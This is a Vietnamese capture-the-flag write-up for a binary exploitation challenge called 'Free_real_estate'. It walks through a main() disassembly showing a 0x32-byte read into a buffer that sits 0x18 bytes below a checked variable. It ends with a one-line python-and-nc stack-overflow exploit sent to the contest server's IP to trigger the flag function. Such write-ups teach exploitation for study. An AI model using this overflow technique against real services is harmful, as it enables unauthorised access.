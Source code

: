 Free_real_estate
---
Binary Exploitation

Description:
---
> Nothing

Solution:
---
Như cái tên đề bài thì đây là bài free điểm, nhưng mà chả ai làm :joy: Chạy thử xem nào :point_down:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/1.PNG)

Xem ra có 1 chỗ nhập, decompile ra xem main nào:

```asm
   0x08048671 <+10>:	push   ebp
   0x08048672 <+11>:	mov    ebp,esp
   0x08048674 <+13>:	push   ecx
   0x08048675 <+14>:	sub    esp,0x24
   0x08048678 <+17>:	call   0x80485bb <init>
   0x0804867d <+22>:	mov    DWORD PTR [ebp-0xc],0x4d2
   0x08048684 <+29>:	sub    esp,0xc
   0x08048687 <+32>:	push   0x8048792
   0x0804868c <+37>:	call   0x8048450 <puts@plt>
   0x08048691 <+42>:	add    esp,0x10
   0x08048694 <+45>:	sub    esp,0x8
   0x08048697 <+48>:	push   0x32
   0x08048699 <+50>:	lea    eax,[ebp-0x24]; <--- Buffer nhập vào nằm ở [ebp-0x24]
   0x0804869c <+53>:	push   eax
   0x0804869d <+54>:	call   0x8048628 <readin>; <--- Hàm đọc đây rồi, nhìn lên <+48> thì hàm này cho nhập 0x32 bytes
   0x080486a2 <+59>:	add    esp,0x10
   0x080486a5 <+62>:	sub    esp,0x8
   0x080486a8 <+65>:	lea    eax,[ebp-0x24]
   0x080486ab <+68>:	push   eax
   0x080486ac <+69>:	push   0x80487a2
   0x080486b1 <+74>:	call   0x8048430 <printf@plt>
   0x080486b6 <+79>:	add    esp,0x10
   0x080486b9 <+82>:	cmp    DWORD PTR [ebp-0xc],0x1b39; <--- DWORD PTR [ebp-0xc] == 0x1b39 ? secret() : Bye! 
   0x080486c0 <+89>:	jne    0x80486c9 <main+98>
   0x080486c2 <+91>:	call   0x804860f <secret>; <--- secret() là hàm in flag ra nhé
   0x080486c7 <+96>:	jmp    0x80486d9 <main+114>
   0x080486c9 <+98>:	sub    esp,0xc
   0x080486cc <+101>:	push   0x80487b0
   0x080486d1 <+106>:	call   0x8048430 <printf@plt>
   0x080486d6 <+111>:	add    esp,0x10
   0x080486d9 <+114>:	mov    eax,0x0
   0x080486de <+119>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486e1 <+122>:	leave  
   0x080486e2 <+123>:	lea    esp,[ecx-0x4]
   0x080486e5 <+126>:	ret
```
Tóm lại là từ [ebp-0x24] đến [ebp-0xc] có 0x18 bytes. Mà readin() lại cho nhập vào 0x32 bytes. Ăn thôi :yum:

> Gõ terminal đập phát chết luôn, khỏi cần code:
```bash
python -c 'print "A"*0x18 + "\x39\x1b\x00\x00"' | nc 3.91.78.13 10004
```
Flag thiếu chữ P mọi người tự thêm vào nhé:

[](/Vong_loai_PTIT/Pwnable/Free_real_estate/2.PNG)
